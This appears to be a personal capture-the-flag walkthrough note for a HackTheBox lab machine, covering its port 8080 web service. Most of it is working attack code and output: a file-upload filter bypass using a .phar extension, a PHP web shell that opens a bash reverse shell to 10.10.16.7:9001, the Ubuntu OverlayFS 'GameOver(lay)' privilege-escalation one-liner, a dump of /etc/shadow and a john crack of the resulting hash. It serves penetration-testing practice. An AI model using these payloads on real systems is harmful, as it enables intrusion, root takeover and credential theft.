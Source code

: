 ```
8080/tcp open  http              syn-ack Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.55 (Ubuntu)
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```
Create new acc
login with your acc
check backend with Wappalyzer, result is php
fuzzing that web with gobuster/dirsearch/dirb => /uploads
try upload infophp() on shell.php file (create shell.php)
it can't, try with another extension php => [~ list extension ~](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/bb71d4ad141bcffa87d21035a2bcbbd2f2818e45/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
u can upload with phar extension
infophp() on shell.phar => upload => success
open /uploads/shell.phar
info php would be appear
see on disable function, u can't use system or something else. find on this web what function are not disable =>  [~ Tips and Tricks ~](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass) => fread/popen are not disable, u can use that
change shell.phar with code bellow : 
```php
<?php echo fread(popen("bash -c 'bash -i >& /dev/tcp/10.10.16.7/9001 0>&1'", "r")); ?>
```
before u upload, don't forget to run nc/listener port 9001
upload shell.phar => open /uploads/shell.phar => look on your listener
```bash
uname -a
	Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
find "exploit ubuntu 5.19" => "exploit ubuntu server 5.19" => "exploit ubuntu server 5.19 game overlay" => "exploit ubuntu server 5.19 game overlay crowdstrike" => [~ link ~](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)
```bash
cd /tmp

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'; rm -rf l u w m

cat /etc/shadow
	--snap--
	drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
	--snap--

```
copy hash drwilliams. crack with john
```bash
sudo john -w=/usr/share/seclists/Passwords/rockyou.txt hashdokter.txt
	Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
	Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
	Using default input encoding: UTF-8
	Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
	Cost 1 (iteration count) is 5000 for all loaded hashes
	Will run 8 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	qwe123!@#        (?)
	1g 0:00:01:35 DONE (2023-11-23 11:23) 0.01050g/s 2253p/s 2253c/s 2253C/s rayburn..pkpkpk
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed
```
password for `drwilliams` is `qwe123!@#`
next to [[Cyber Security/HackTheBox/Machines/Medium/Hospital/Notes/443]]
